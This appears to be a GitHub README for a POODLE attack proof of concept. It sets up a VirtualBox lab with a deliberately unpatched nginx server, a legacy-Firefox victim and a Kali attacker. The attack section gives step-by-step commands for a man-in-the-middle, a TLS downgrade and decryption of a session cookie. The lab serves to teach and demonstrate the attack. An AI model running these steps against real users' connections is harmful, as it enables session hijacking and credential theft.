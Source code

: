 # Another POODLE attack PoC
See forked [Poodle PoC repository of mpgn](https://github.com/mpgn/poodle-PoC) to learn more about  the POODLE attack.

## :zap: General setup
I recommend VirtualBox with NAT network. In this example, the assigned IP subnet is 10.0.2.0/24. You can find my video of this PoC and the full attack on [YouTube](https://www.youtube.com/watch?v=9w1x6_UI64c).

## :computer: Vulnerable server
Download Ubuntu 12.04 (server install CD) from [here](http://releases.ubuntu.com/12.04/) and get a running server in VirtualBox. After installation, log in and become root. DO NOT RUN ANY SYSTEM UPDATES! Then type
```console
wget https://raw.githubusercontent.com/RootDev4/poodle-PoC/master/install-nginx-server.sh && chmod +x install-nginx-server.sh && ./install-nginx-server.sh
```
to install and configure a vulnerable nginx web server.  
Get assigned IP address of server with ```ip a``` (in this example, it's 10.0.2.14).

## :computer: Victim's machine
Download any OS of your choice (I used [Ubuntu Desktop 20.04](https://ubuntu.com/download)) and install it in VirtualBox. After installation, log in and download a [legacy version of Firefox browser](https://ftp.mozilla.org/pub/firefox/releases/) (successfully tested with [Firefox v33.0](https://ftp.mozilla.org/pub/firefox/releases/33.0/)).

## :computer: Attacker's machine
Download latest [Kali Linux](https://www.kali.org/downloads/) (or any other Linux distribution of your choice) and install it in VirtualBox. After installation, log in and become root. Clone this repository to your computer by running
```console
git clone https://github.com/RootDev4/poodle-PoC.git
```
and type
```console
chmod +x recompile-openssl.sh && ./recompile-openssl.sh
```
to recompile the installed OpenSSL software with SSLv3.0 support since these protocol is disabled by default.  
Get assigned IP address of attacker's machine with ```ip a``` (in this example, it's 10.0.2.17).
## :bomb: Attack!
On the attacker's machine, run the following in separate terminal tabs/windows.

### Terminal tab/window 1
```console
python3 httpserver.py https://10.0.2.14/
```
where https://10.0.2.14/ is the URL to the nginx server website.

### Terminal tab/window 2
```console
./start-mitm-attack.sh
```
and follow instructions shown in the terminal's window.

### Terminal tab/window 3
```console
python3 ./poodle-exploit.py 10.0.2.17 4443 10.0.2.14 443 --start-block 49 --stop-block 52
```
where 10.0.2.17 is the attacker's IP address and 10.0.2.14 is the nginx server's IP address. Adjust the cookie's block position of HTTP header in --start-block and --stop-block.

Keep terminal tab/window 1 and 2 open in the background and only focus on tab/window 3.

Open https://10.0.2.14/ (nginx server's IP address) on the victim's machine and sign in with John:mypasswd to create an user session/cookie. Open http://10.0.2.17/ (attacker's IP address) in another browser tab and click the button "Ping HTTPS Server" to check, if the MitM attack is working. Back on the attacker's machine, the script should now output the received package length.
 
If SSL protocol is not SSLv3.0, type ```downgrade``` to start a TLS downgrade attack. This might not work, so as a workaround, you have to manually downgrade the browser's TLS protocol support on the attacker's machine. Open _about:config_ in a new tab of the browser and set _security.tls.version.max_ to 0. Read more about that issue [here](https://github.com/mpgn/poodle-PoC/issues/4).

Then type ```search``` and hit the button "Find CBC block length" on the victim's machine to find the right block length. After the script have found the block length, type ```active``` and hit the button "Run decryption" on the victim's machine. This will start the decryption attack.
